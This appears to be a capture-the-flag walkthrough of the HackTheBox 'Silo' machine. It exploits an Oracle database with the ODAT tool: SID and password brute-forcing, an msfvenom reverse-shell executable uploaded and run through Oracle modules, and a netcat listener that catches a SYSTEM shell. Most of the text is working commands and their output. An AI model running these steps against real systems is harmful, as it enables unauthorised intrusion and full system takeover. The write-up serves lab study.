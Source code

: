 This method involves using `ODAT` tool to completely exploit the machine and directly getting the `root` shell.

Firstly, to exploit an Oracle database, you need to identify its `Oracle System ID (SID)` string. This is a string that is used to uniquely identify a particular database on a system. This can be done using the `sidguesser` module in ODAT.

```
python3 odat.py sidguesser -s 10.10.10.82 -p 1521

OR 

python3 odat sidguesser -s 10.10.10.82 -p 1521
```

We find 4 SIDs, and we use the `XE` to enumerate the machine further.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes]
└─$  odat sidguesser -s 10.10.10.82 -p 1521 

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...                                    #################################################################  | ETA:  00:00:05 
100% |#####################################################################################################################################| Time: 00:10:33 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |#####################################################################################################################################| Time: 00:00:29 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'MK' is a valid SID. Continue...                                                                                                       | ETA:  00:05:15 
[+] 'XE' is a valid SID. Continue...                                    ####################################################               | ETA:  00:01:13 
100% |#####################################################################################################################################| Time: 00:10:57 
[+] SIDs found on the 10.10.10.82:1521 server: XE,MK
```

Now, the second thing to do is enumerate valid credentials. This can be done using the passwordguesser module in ODAT. I tried both account files that come with the ODAT installation, however, the tool didn’t find any valid credentials. So instead, let’s locate the credential list that the Metasploit framework uses.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ locate oracle_default_userpass.txt
/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
```

Copying the `oracle_default_userpass.txt` to odat's `/account` directory

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ sudo cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt /opt/odat/accounts/
```

The username and passwords in this list are separated by a space instead of a forward slash (/). We’ll have to change it to forward slash so that the ODAT tool is able to parse the file. This can be done in vi using the following command.

```
:%s/ /\//g
```

Now that we have a proper list, we can use the `passwordguesser` module to brute force credentials.

```
odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/oracle_default_userpass.txt
```

This takes a while but it ends up finding credentials!

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/odat/accounts/oracle_default_userpass.txt

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521                                                                       
09:26:33 WARNING -: The line 'jl/jl/\n' is not loaded in credentials list: ['jl', 'jl', '']
09:26:33 WARNING -: The line 'ose$http$admin/invalid/password\n' is not loaded in credentials list: ['ose$http$admin', 'invalid', 'password']
The login brio_admin has already been tested at least once. What do you want to do:                                                        | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. 
```

Now that we have a valid SID and username/password, let’s see if we can get code execution on the box.

ODAT has a utlfile module that allows you to upload, download or delete a file. Since we are trying to get code execution on the box, let’s upload a malicious executable that sends a reverse shell back to our attack machine.

First, generate the executable using msfvenom.
      
```
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.16.3 LPORT=1234 -f exe > shell.exe
```

Next, upload the file using the utlfile module.

```
odat utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe 
```

I got an unexpected error.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes]
└─$ odat utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe 

[1] (10.10.10.82:1521): Put the ../../htb/silo/shell.exe local file in the /temp folder like shell.exe on the 10.10.10.82 server
[-] Impossible to put the ../../htb/silo/shell.exe file: `ORA-01031: insufficient privileges`

```

We don’t have sufficient privileges to upload a file. Let’s see if the user was given sysdba privileges by adding the `sysdba` flag to our command.

```
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe --sysdba
```

Now we need to execute the file. We can do that using the externaltable module in ODAT.

First setup a listener on the attack machine to receive the reverse shell.

```
nc -lvnp 1234
```

```
python3 odat.py externaltable -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba
```

The database must have been running with SYSTEM privileges and so we got a shell as `SYSTEM`.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes]
└─$ nc -lvnp 1234
listening on [any] 9999 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.82] 49202
Windows PowerShell running as user SILO$ on SILO
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\oraclexe\app\oracel\product\11.2.0\server>whoami
whoami
nt authority\system
```

The database must have been running with SYSTEM privileges and so we got a shell as SYSTEM.

So we can grab both the flags.
